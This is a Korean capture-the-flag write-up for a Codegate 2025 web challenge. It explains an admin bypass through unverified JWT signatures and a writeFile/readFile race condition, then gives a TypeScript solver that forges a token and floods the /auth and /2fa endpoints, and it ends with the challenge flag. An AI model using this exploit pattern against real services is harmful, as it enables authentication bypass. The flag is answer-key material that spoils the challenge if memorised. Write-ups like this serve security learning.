 코드를 보면 알 수 있든 flag를 얻기 위해서는 admin 계정으로 로그인 한 후 랜덤한 값을 생성하고 그 값을 맞출 필요가 있다.

admin 계정은 `read_JWT`의 서명을 확인하지 않는 취약점을 통해 쉽게 얻을 수 있다.

그러나, 1234개의 랜덤한 값을 맞추는 것은 불가능하다.
따라서, 다른 방법을 생각해볼 필요가 있었다.

코드를 둘러보던 중 `gen_hash`의 생성 방식이 불필요하게 복잡하다는 것을 알았다.
그래서, **race condition**을 이용하는 것이라 생각했다.

실제로 테스트를 해보니 `writeFile`과 `readFile`에서 **race condition**이 발생해 length가 0인 파일을 읽어오는 것을 확인 할 수 있었다.

이를 이용해서 익스플로잇 코드를 작성하면 다음과 같다.

{: file="solver.ts"}

```ts
import { logger, randomStr } from "@utils";
import { create } from "@web";
import jwt from "jsonwebtoken";

const r = create({
  baseURL: "http://15.165.43.224:1234/",
  defaultPostContentType: "application/json",
  ignoreHttpErrors: true,
});

const token = jwt.sign({ uid: "87c869e7295663f2c0251fc31150d0e3" }, "ehhh");

r.setCookie("check", token);

async function fn1() {
  while (true) {
    await Promise.all([r.post("/2fa")]);
  }
}

async function fn2() {
  while (true) {
    await Promise.all([
      r.post("/auth", { data: "" }).then((r) => logger.info(r.data)),
      r.post("/auth", { data: "" }).then((r) => logger.info(r.data)),
      r.post("/auth", { data: "" }).then((r) => logger.info(r.data)),
      r.post("/auth", { data: "" }).then((r) => logger.info(r.data)),
      r.post("/auth", { data: "" }).then((r) => logger.info(r.data)),
      r.post("/auth", { data: "" }).then((r) => logger.info(r.data)),
    ]);
  }
}

fn1();
fn2();
```

`codegate2025{8b2c743e13f766b30c9c1e72e8a6595a651321da1c01eda7776fbd8e209ef9feace5a162237e696ea4b58a7bdf0b88dfb7f25c5ac76f4e12a4c4538d438fcdbf}`
